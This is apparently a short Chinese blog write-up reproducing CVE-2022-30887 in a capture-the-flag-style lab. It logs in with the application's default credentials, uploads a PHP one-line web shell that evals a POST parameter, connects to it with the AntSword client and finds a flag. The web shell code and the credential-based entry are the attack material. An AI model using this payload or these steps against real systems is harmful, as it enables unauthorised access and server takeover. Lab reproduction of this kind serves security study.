 ```yaml
---
title: CVE-2022-30887
subtitle:
date: 2025-03-14T13:09:16+08:00
slug: 7a7f065
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

![](images/529b7081391a3f3103fe3aadd4560b8c.png)
查看发现默认账号密码是

```
账号：mayuri.infospace@gmail.com
密码：mayurik
```

![](images/875cb9aebbbf498cb4466a6802afa712.png)
成功登录
![](images/6b0a7c771f6457457c92a39151f715dd.png)
发现文件上传，尝试上传一句话木马
![](images/12b6132cdc59d3475f338ba7c8c84130.png)

``` Php
<?php @eval($_POST['t1ng']);?>
```

![](images/82e9dbe9d0db0c67356f3c67ab725201.png)
用蚁剑进行连接
![](images/3524f32c8d49aed457eadbbee07b5fce.png)
查看目录找到flag
![](images/c78b26e371e7355a9b35b0dbe678ec18.png)
